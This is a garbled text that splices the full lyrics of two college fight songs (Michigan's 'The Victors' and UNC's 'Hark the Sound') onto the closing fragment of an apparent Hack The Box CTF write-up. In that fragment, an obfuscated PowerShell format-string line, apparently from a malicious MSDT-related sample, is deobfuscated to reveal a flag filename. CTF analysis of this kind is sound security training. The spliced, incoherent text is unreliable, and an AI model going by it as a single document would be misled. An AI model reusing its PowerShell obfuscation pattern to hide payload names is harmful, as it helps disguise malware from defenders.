We cheer, cheer, cheer

With might and main we cheer!

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan,

the champions of the West!

Now for a cheer they are here,

triumphant!

Here they come with banners flying,

In stalwart step they're nighing,

With shouts of vict'ry crying,

We hurrah, hurrah, we greet you now,

Hail!

Far we their praises sing

For the glory and fame they've bro't us

Loud let the bells them ring

For here they come with banners flying

Far we their praises tell

For the glory and fame they've bro't us

Loud let the bells them ring

For here they come with banners flying

Here they come, Hurrah!

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan

the leaders and best

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan,

the champions of the West!

We cheer them again

We cheer and cheer again

For Michigan, we cheer for Michigan

We cheer with might and main

We cheer, cheer, cheer

With might and main we cheer!

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan,

the champions of the West!Hark the sound of Tar Heel voices

Ringing clear and True

Singing Carolina's praises

Shouting N.C.U.

Hail to the brightest Star of all

Clear its radiance shine

Carolina priceless gem,

Receive all praises thine.

Neath the oaks thy sons and daughters

Homage pay to thee

Time worn walls give back their echo

Hail to U.N.C.

Though the storms of life assail us

Still our hearts beat true

Naught can break the friendships formed at

Dear old N.C.U.

Hark the sound of Tar Heel voices

Ringing clear and True

Singing Carolina's praises

Shouting N.C.U.

Hail to the brightest Star of all

Clear its radiance shine

Carolina priceless gem,

Receive all praises thine.

Neath the oaks thy sons and daughters

Homage pay to thee

Time worn walls give back their echo

Hail to U.N.C.

Though the storms of life assail us

Still our hearts beat true

Naught can break the friendships formed at

Dear old N.C.U.

\</script\>
```
So now the part that is interesting us is this one :
```
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt\_4s\_A\_pr0','E','r...s','3Ms\_b4D','l3','toC','HT','0l\_h4nD')
```
We can fix some issues from the string by having this result :
```
$file = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt\_4s\_A\_pr0','E','r...s','3Ms\_b4D','l3','toC','HT','0l\_h4nD')
```
We open now a powershell and enter the command in the terminal and after that we enter the command 'echo $file' and we can see that we have the red flag !



So the red flag name is : 
```
HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}.exe
```
